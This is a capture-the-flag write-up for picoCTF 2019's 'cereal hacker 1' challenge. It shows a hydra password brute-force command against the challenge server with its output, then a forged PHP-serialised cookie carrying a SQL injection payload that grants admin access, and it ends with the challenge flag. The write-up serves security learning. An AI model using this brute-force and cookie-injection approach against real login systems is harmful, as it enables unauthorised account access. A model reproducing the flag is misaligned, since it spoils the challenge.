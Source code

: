 # cereal hacker 1
To start, we actualy need to use brute force. Use [these](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt) [lists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) to guide you.

First download the word lists. Then we can use the [hydra tool](https://github.com/vanhauser-thc/thc-hydra) to try to guess the password.

The command is ```hydra -L top-usernames-shortlist.txt -P 10-million-password-list-top-10000.txt -v http-post-form://2019shell1.picoctf.com:49879/"index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login"```

- `hydra`: use the [hydra password guesser](https://github.com/vanhauser-thc/thc-hydra)
- `-L top-usernames-shortlist.txt`: get usernames from [`top-usernames-shortlist.txt`](ttps://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
- `-P 10-million-password-list-top-10000.txt`: get passwords from [`10-million-password-list-top-10000.txt`](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)
- `-v`: verbose output
- `http-post-form`: were guessing over http, specifily post on a form
- `2019shell1.picoctf.com:49879` guess to port 49879 on 2019shell1.picoctf.com
- `"index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login"`: guess to `index.php?file=login` with user and password from the wordlist, and output when you _don't_ see "Invalid Login"

This takes about 1/2 an hour to give
```text
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-08 11:20:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 170000 login tries (l:17/p:10000), ~10625 tries per task
[DATA] attacking http-post-form://2019shell1.picoctf.com:49879/index.php?file=login:user=^USER^&pass=^PASS^:Invalid Login
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 1361.00 tries/min, 1361 tries in 00:01h, 168639 to do in 02:04h, 16 active
[STATUS] 1371.67 tries/min, 4115 tries in 00:03h, 165885 to do in 02:01h, 16 active
[STATUS] 1366.29 tries/min, 9564 tries in 00:07h, 160436 to do in 01:58h, 16 active
[STATUS] 1364.60 tries/min, 20469 tries in 00:15h, 149531 to do in 01:50h, 16 active
[VERBOSE] Page redirected to http://2019shell1.picoctf.com:49879/index.php?file=login
[VERBOSE] Page redirected to http://2019shell1.picoctf.com:49879/index.php?file=regular_user
[49879][http-post-form] host: 2019shell1.picoctf.com   login: guest   password: guest
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

I'm not sure if this was intended. In the competition I got these details as someone put them in the discord, and the admins seemed to be fine with it.

Anyway now we can log in as `guest` with password `guest`. This gives us a cookie `user_info` with contents `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D`. Decoding with `base64` we get `O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";}`. 

This seems like some strange php serialisation format. Anyway we want admin, so let's try a sql injection.

```
O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:9:"'or'1'='1";}
```

Note we have to change the lenght on the password.

Now we encode this back up with base64 to get `TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFz c3dvcmQiO3M6OToiJ29yJzEnPScxIjt9Cg==`.

Put this in as our cookie and after navigating to [`index.php?file=admin`](https://2019shell1.picoctf.com/problem/12279/index.php?file=admin) we get the flag.

Flag: `picoCTF{3fba6964d680deb73b38b7f2916df7d5}`